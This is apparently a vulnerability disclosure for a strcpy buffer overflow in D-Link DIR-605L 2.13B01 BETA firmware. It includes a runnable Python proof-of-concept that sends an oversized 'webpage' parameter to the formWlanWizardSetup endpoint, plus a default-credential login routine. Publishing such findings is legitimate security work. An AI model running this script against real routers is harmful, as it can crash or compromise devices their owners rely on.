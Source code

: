 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-605L/REVB/DIR-605L_REVB_FIRMWARE_v2.13B01_BETA.zip

## Affected version

D-Link DIR-605L 2.13B01 BETA

## Vulnerability details

In the D-Link DIR-605L 2.13B01 BETA firmware has a buffer overflow vulnerability in the `formWlanWizardSetup` function. The `v70` variable receives the `webpage` parameter from a POST request. However, since the user can control the input of `webpage`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240926123545983](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926123545983.png)

![image-20240926123602834](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926123602834.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formWlanWizardSetup"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "webpage": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240926120958699](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926120958699.png)
